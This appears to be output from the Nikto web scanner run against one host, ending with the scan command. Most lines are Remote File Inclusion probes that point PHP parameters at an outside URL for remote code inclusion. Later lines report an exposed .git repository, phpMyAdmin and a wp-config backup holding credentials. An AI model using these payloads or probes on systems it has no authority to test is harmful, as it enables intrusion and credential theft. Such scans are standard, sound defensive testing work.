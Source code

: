+ /index.php?plugin=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?principal=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?proMod=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?proMod=http://blog.cirt.net/rfiinc.txt?cmd: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?project=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?repinc=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?root_prefix=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?root_prefix=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?section=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?site=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?site_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?styl[top]=http://blog.cirt.net/rfiinc.txt??: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?template=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?templates_dir=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?theme=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?themepath=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?themesdir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?this_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?txt=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?up=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?url=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?w=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?way=http://blog.cirt.net/rfiinc.txt??????????????: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /phpmyadmin/: phpMyAdmin directory found.
+ /.git/index: Git Index file may contain directory listing information.
+ /.git/HEAD: Git HEAD file found. Full repo details may be present.
+ /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ /webservices/: Directory indexing found.
+ /webservices/: Webservices found.
+ /.git/config: Git config file found. Infos about repo details may be present.
+ /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts. See: https://typo3.org/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /README.md: Readme Found.
+ 8920 requests: 0 error(s) and 161 item(s) reported on remote host
+ End Time:           2025-10-04 20:29:06 (GMT5.5) (16 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

nikto -h 192.5.229.3 -o nikto.html -Format htm
